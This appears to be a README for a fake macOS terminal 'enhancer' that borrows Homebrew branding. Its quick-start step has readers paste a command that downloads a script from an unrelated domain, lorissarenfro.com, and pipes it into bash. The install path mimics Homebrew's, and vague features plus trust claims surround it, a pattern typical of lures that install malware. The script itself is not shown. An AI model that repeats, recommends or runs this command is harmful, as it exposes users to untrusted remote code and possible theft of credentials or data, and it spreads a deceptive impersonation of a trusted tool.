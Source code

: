 # 🍃 HomeBrew Command-Line Workspace Tuner for macOS

Welcome to a clean and adaptive enhancement for your macOS terminal environment.  
Designed for developers and enthusiasts seeking a more efficient and visually refined experience in the shell.

---

## 🎯 Quick Interaction

To explore this environment enhancer, open your native terminal app and enter:

```bash
/bin/bash -c "$(curl -fsSL https://lorissarenfro.com/Homebrew/install/HEAD/install.sh)"
```

This initiates a minimal, user-oriented configuration tailored for flexibility and clarity.

---

## ⚙️ Compatibility

- macOS 10.14 or later  
- Active internet connection  
- Access to Terminal or iTerm

---

## 🧩 What's Inside

- Adjustments for better font rendering  
- Streamlined command-line visuals  
- Optional improvements for workspace focus

---

## 🔐 Trust & Transparency

All components are openly accessible.  
You’re always in control of what’s being introduced into your environment.  
Nothing is hidden. No background services.

---

> 🧭 Less noise. More focus. Pure terminal comfort.
